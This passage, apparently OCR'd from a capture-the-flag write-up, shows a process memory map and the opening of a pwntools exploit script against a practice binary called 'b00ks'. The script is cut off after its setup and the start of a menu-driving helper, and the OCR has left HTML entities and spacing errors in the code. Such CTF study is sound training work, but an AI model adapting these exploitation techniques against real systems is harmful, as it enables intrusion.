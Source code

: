 

```

Start              End                Offset             Perm Path

0x0000000000400000 0x0000000000401000 0x0000000000000000 rx /home/vb/ Desktop/123/123
0x0000000000600000 0x0000000000601000 0x0000000000000000 r-- /home/vb/ Desktop/123/123
0x0000000000601000 0x0000000000602000 0x0000000000001000 rw- /home/vb/ Desktop/123/123
0x00007f6572703000 0x00007f65728c3000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/libc-2.23.so

0x00007f65728c3000 0x00007f6572ac3000 0x00000000001c0000 --- /lib/x86_64-linux-gnu/libc-2.23.so

0x00007f6572ac3000 0x00007f6572ac7000 0x00000000001c0000 r-- /lib/x86_64-linux-gnu/libc-2.23.so

0x00007f6572ac7000 0x00007f6572ac9000 0x00000000001c4000 rw- /lib/x86_64-linux-gnu/libc-2.23.so

0x00007f6572ac9000 0x00007f6572acd000 0x0000000000000000 rw-

0x00007f6572acd000 0x00007f6572af3000 0x0000000000000000 r-x /lib/x86_64-linux-gnu/ld-2.23.so

0x00007f6572cb4000 0x00007f6572cd9000 0x0000000000000000 rw- <=== mmap

0x00007f6572cf2000 0x00007f6572cf3000 0x0000000000025000 r-- /lib/x86_64-linux-gnu/ld-2.23.so

0x00007f6572cf3000 0x00007f6572cf4000 0x0000000000026000 rw- /lib/x86_64-linux-gnu/ld-2.23.so

0x00007f6572cf4000 0x00007f6572cf5000 0x0000000000000000 rw-

0x00007fffec566000 0x00007fffec587000 0x0000000000000000 rw- [stack]

0x00007fffec59c000 0x00007fffec59f000 0x0000000000000000 r-- [vvar]

0x00007fffec59f000 0x00007fffec5a1000 0x0000000000000000 r-x [vdso]

0xffffffffff600000 0xffffffffff601000 0x0000000000000000 r-x [vsyscall]

```



#### exploit



```python

from pwn import *

context.log_level="info"



binary = ELF("b00ks")

libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")

io = process (&quot;./ b00ks&quot;)




def createbook(name_size, name, des_size, des):

io.readuntil (&quot;&gt;&quot;)
io.sendline ( &quot;1&quot;)
io.readuntil (&quot;:&quot;)
```